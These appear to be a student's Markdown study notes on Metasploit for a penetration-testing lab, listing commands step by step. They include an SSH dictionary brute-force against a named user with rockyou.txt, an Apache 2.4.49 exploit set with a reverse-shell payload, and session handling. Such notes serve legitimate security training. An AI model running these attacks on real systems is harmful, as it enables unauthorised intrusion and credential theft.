 	- Example: we can set _RHOSTS_ to all discovered hosts with open port 445
		- `unset RHOSTS`
		- `services -p 445 --rhosts`
- launch module
	- `run`
	- `exploit`
- Show if Metasploit automatically detected vulnerabilities based on the results of this module
	- `vulns`
- _Password Attacks_ Module
		- Scenario:
			- `we successfully identified credentials on BRUTE by leveraging a dictionary attack against SSH. Instead of Hydra,2 we can also use Metasploit to perform this attack`
	- To begin, we'll **search** for SSH auxiliary modules.
		- ```search type:auxiliary ssh```
		- `use 15`
		- `show options`
	- set options
		- ```set PASS_FILE /usr/share/wordlists/rockyou.txt```
		- ```set USERNAME george```
		- ```set RHOSTS 192.168.50.201```
		- ``` ```
	- `run`
	- opens a *session*
- display all valid credentials we gathered up to this point
	- `creds`

### Exploit Modules

- Example:
	- Let's create a new workspace for this section and search Metasploit for modules related to "Apache 2.4.49"
		- `workspace -a exploits`
		- `search Apache 2.4.49`
	- Let's **use** the exploit module and enter **info** to review its description.
		- `use 0`
		- `info`
	- Display options
		- `show options`
	- Set payload
		- ```set payload payload/linux/x64/shell_reverse_tcp```
		- `show options`
		- LPORT 4444 -> might be blocked by firewalls -> change LPORT to common http/https ports
	- Set options
		- `set SSL false`
		- `set RPORT 80`
		- ```set RHOSTS 192.168.50.16```
	- `run`
- *sessions*
	- used to interact and manage access to successfully exploited targets
- *jobs*
	- used to run modules or features in the background.
- Sessions
	- send session to background
		- `Ctrl + Z`
	- list all sessions
		- `sessions -l`
	- interact with a session
		- `sessions -i 2`
		- `uname -a`
	- kill a session
		- `sessions -k 2`
	- Run exploit in the context of a job
		- `run -j`